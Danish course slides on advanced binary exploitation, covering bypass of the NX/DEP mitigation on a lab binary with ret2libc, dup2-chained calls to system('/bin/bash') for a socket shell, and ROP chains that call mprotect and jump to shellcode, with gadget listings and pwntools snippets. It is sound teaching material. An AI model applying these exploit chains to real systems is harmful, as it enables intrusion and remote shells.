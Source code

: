 Næste mitigation - Data Execution Prevention
--------------------------------------------

Også kaldt *No Execute*, eller *W^X*

Næste mitigation - Data Execution Prevention
--------------------------------------------

[source,bash]
------------------------------------------------
$ checksec assignments/fmt_nx
[*] '/vagrant/presentations/04-advanced-exploitation/assignments/fmt_nx'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
------------------------------------------------

Næste mitigation - Data Execution Prevention
--------------------------------------------

[source,bash]
------------------------------------------------
$ grep -E '(fmt_nx)|(stack)' /proc/$(pidof fmt_nx)/maps
56559000-5655b000 r-xp 00000000 00:7d 22 /04-advanced-exploitation/fmt_nx
5655b000-5655c000 r--p 00001000 00:7d 22 /04-advanced-exploitation/fmt_nx
5655c000-5655d000 rw-p 00002000 00:7d 22 /04-advanced-exploitation/fmt_nx
ff9ae000-ff9cf000 rw-p 00000000 00:00 0  [stack]
------------------------------------------------

Løsning 1 - ret2libc
--------------------

Udføres `system("/bin/bash");` ser stakken således ud ved første instruktion i `system@libc`:

image::../images/ret2libc_1.png[width=600]

Løsning 1 - ret2libc
--------------------

Hvad nu hvis vi får stakken til at se sådan her ud lige inden en `ret` instruktion?:

image::../images/ret2libc_2.png[width=600]

Hvordan finder vi `system@libc`?
--------------------------------

Fandens komplekst men meget lærerigt at forsøge manuelt.

Rimeligt velbeskrevet her: http://uaf.io/exploitation/misc/2016/04/02/Finding-Functions.html

Og illustreret her: http://blog.the-playground.dk/2017/06/dynelf-illustrated.html

Indtil lysten til den slags dukker op kan I benytte `DynELF` klassen fra `pwntools`.

[source,python]
------------------------------------------------
class DynELF:
    ...
    def __init__(self, leak, pointer=None, elf=None):
        ...
------------------------------------------------

Opgave 6 - Lav arbitrary read funktion
--------------------------------------

Test den ved at resolve `system` fra `libc`

Opgave 7 - Returner til `system`
--------------------------------

Hvorfor fik vi ikke en shell?
-----------------------------

Det gjorde vi også:

[source,bash]
------------------------------------------------
[pid  5410] rt_sigprocmask(SIG_SETMASK, [], NULL, 8) = 0
[pid  5410] execve("/bin/sh", ["sh", "-c", "/bin/bash"], [/* 3 vars */]) = 0
strace: [ Process PID=5410 runs in 64 bit mode. ]
.......
[pid  5403] --- SIGSEGV {si_signo=SIGSEGV, si_code=SEGV_MAPERR, si_addr=0xdeadbeef} ---
....
------------------------------------------------

Hvorfor fik vi ikke en shell?
-----------------------------

Vi kommunikerer med processen via en socket med file descriptor 4.

Shellen snakker med stdin, stdout og stderr som har file descriptors 0, 1 og 2

Hvorfor fik vi ikke en shell?
-----------------------------

Husk `findpeersh`?

Den fandt en socket filedescriptor og kopierede den til filedescriptor 0, 1 og 2.

Vi kan gøre det samme.

Opgave 8 - Chained ret2libc
---------------------------

Vi skal gøre dette:

[source,c]
------------------------------------------------
dup2(4, 0);
dup2(4, 1);
dup2(4, 2);
system("/bin/bash");
------------------------------------------------

Opgave 8 - Chained ret2libc
---------------------------

Men det er problematisk

image::../images/bad_chaining.png[width=600]

Opgave 8 - Chained ret2libc
---------------------------

Ryd stakken mellem "kald"

image::../images/good_chaining.png[width=300]

Når ret2libc ikke virker
------------------------

* Statisk lænkede programmer uden libc
* Hvis vi ikke kan resolve
* I x86_64/ARM/MIPS leveres argumenter ikke på stakken men i registre

Return Oriented Programming (ROP)
---------------------------------

Kræver kontrol med stakken.

ROP Gadget: Kort serie af instruktioner som ender med `ret` eller `call/jmp` til et register

ROP Chain: Serie af gadgets, som opnår et delmål

Kæd dem sammen ved at returnere rundt for at opnå et større mål.

Return Oriented Programming (ROP)
---------------------------------

Indsamling af gadgets

[source,bash]
------------------------------------------------
$ ROPgadget --multibr --binary assignments/fmt_nx
Gadgets information
============================================================
0x00000936 : adc al, 0x24 ; call eax
0x00000983 : adc al, 0x24 ; call ecx
0x00001297 : adc al, 0x41 ; ret
....
0x00000b4d : sub esp, 0x44 ; call 0x8f9
0x0000071d : sub esp, 8 ; call 0x8f9
0x00000931 : test eax, eax ; je 0x92c ; mov dword ptr [esp], edx ; call eax
0x00001293 : xor byte ptr [edx], al ; dec eax ; push cs ; adc al, 0x41 ; ret

Unique gadgets found: 158
------------------------------------------------

Return Oriented Programming (ROP)
---------------------------------

Dem vi kan nøjes med

[source,bash]
------------------------------------------------
0x00000d13 : add esp, 0x44 ; pop ebx ; pop ebp ; ret
0x00000e88 : int 0x80 ; ret
0x00000739 : pop ebx ; ret
0x00000d7b : pop eax ; ret
0x00000737 : les ecx, ptr [eax] ; pop ebx ; ret
0x00000a06 : lea edx, dword ptr [ebx - 0x110] ; mov dword ptr [esp], edx ; call eax
0x00000928 : pop ebx ; pop ebp ; ret
------------------------------------------------

Return Oriented Programming (ROP)
---------------------------------

Slutmålet med vores kæde:

[source,c]
------------------------------------------------
mprotect(shellcode & PAGE_MASK, 
         PAGE_SIZE * 2, 
         PROT_READ|PROT_WRITE|PROT_EXEC);
((void(*))shellcode)();
------------------------------------------------

[source,asm]
------------------------------------------------
mov eax, SYS_mprotect
mov ebx, shellcode & PAGE_MASK
mov ecx, PAGE_SIZE * 2
mov edx, PROT_READ | PROT_WRITE | PROT_EXEC
int 0x80
jmp shellcode
------------------------------------------------

Return Oriented Programming (ROP) - delmål 1
--------------------------------------------

`edx = PROT_READ|PROT_WRITE|PROT_EXEC = 7`

[source,python]
------------------------------------------------
fmt_base + POP_EBX, # pop ebx ; ret
7 + 0x110,          # ->ebx
fmt_base + POP_EAX, # pop eax ; ret
fmt_base + POP2,    # ->eax = pop ebx ; pop ebp ; ret
fmt_base + LEA_EDX, # lea edx, dword ptr [ebx - 0x110] ; mov dword ptr [esp], edx ; call eax
0xdeadbeef,         # Will be overwritten
------------------------------------------------

Return Oriented Programming (ROP) - delmål 2
--------------------------------------------

`ecx = PAGE_SIZE * 2` og `ebx = shellcode & PAGE_MASK`

[source,python]
------------------------------------------------
poke(fmt_base + 0x3000, p32(PAGE_SIZE * 2) + "\0\0")
------------------------------------------------

`fmt_base + 0x3000` er en skrivbar datasektion.

[source,python]
------------------------------------------------
fmt_base + POP_EAX, # pop eax ; ret
fmt_base + 0x3000,  # ->eax
fmt_base + LES_ECX, # les ecx, ptr [eax] ; pop ebx ; ret
buffer & PAGE_MASK, # address to mprotect must be on a page boundary
------------------------------------------------

Return Oriented Programming (ROP) - delmål 3
--------------------------------------------

Udfør systemkald til `mprotect` og spring så til shellcoden

[source,python]
------------------------------------------------
fmt_base + POP_EAX,           # pop eax ; ret
int(constants.SYS_mprotect),  # ->eax
fmt_base + INT_80,            # int 0x80 ; ret
buffer
------------------------------------------------
